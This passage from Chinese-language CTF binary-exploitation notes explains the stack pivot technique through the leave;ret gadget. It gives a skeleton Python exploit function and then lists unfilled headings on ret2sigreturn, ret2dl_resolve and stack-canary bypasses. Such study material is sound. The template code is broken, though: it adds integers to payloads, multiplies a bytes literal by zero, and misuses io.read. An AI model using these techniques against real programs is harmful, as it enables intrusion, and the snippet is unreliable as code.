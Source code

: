 #### 2.5 stack pivot attack

**使用**：栈迁移攻击的题目很有特点，需要滿足两个条件：1）可泄露地址或者程序不开启`PIE`；2）栈溢出超过`ebp`指针的字节为`2`个指针大小，刚好只能覆盖到函数返回地址。在`32`位系统下，溢出`ebp`指针后`8`个字节，`64`位系统下，溢出`rbp`指针后`16`个字节。

**原理**：栈溢出的原理并不复杂，核心是利用`leave;ret`这一个`gadget`。在`64`位系统下，该`gadget`的含义其实包括两条指令：`mov rbp rsp, pop rbp;pop rip`。将`rsp`移动到`rbp`指向的位置，然后`pop rbp`，将栈顶指针指向的内容存入到`rbp`寄存器，然后`rsp `往高地址移动`8`个字节，再执行`pop rip`，将此时栈顶指针的内容赋给`rip`寄存器，开始执行程序流。事实上，只需要有`pop rsp; ret`这样的`gadget`就能完成栈迁移。

```python
def stack_pivot_attack(io, elf, leave_ret_addr:int, fake_rbp_addr:int):
    '''
    栈迁移：程序溢出的字节数为两个指针大小，只能覆盖到函数返回地址
    将栈迁移到其他可写入的地方，如bss段，data段，libc的free_hook上方
    需要寻找一个leave;ret的gadget, 这里以64位为例
    
    '''  
    # 第一步是往fake_rbp_addr写入rop链
    payload = fake_rbp_addr + 0x200 # fake rbp 2
    payload += 0x0 # 这里开始，可以填写真正的rop链，如要执行的函数地址等
    # ......
    io.read(0, fake_rbp_addr, 0x60) # 触发某写入函数，往地址里面写入ROP
    
    # 第二步是控制栈溢出
    payload = 0x0 * b'a' # junk data
    payload += p64(fake_rbp_addr) # 填充rbp
    payload += p64(leave_ret_addr) # 填充返回地址
    io.send(payload)
    
    # 之后，程序会去执行rop链
```

#### 2.6 ret2sigreturn



#### 2.7 ret2vsdo



#### 2.8 ret2dl_resolve



### 3、绕过Canary

`canary`是一种栈保护手段，一般有以下特点：

- `canary`可以检测出程序是否存在栈溢出
- `canary`一般就在`ebp`指针的下方
- `canary`是一个随机值，结尾一定是`\x00`
- 同一个进程内，所有子进程的所有的函数的`canary`都是一样的

#### 3.1 泄露canary



#### 3.2 爆破canary



#### 3.3 利用stack smashing打印flag



#### 3.4 劫持stack_chk_fail



#### 3.5 修改TLS段的canary值

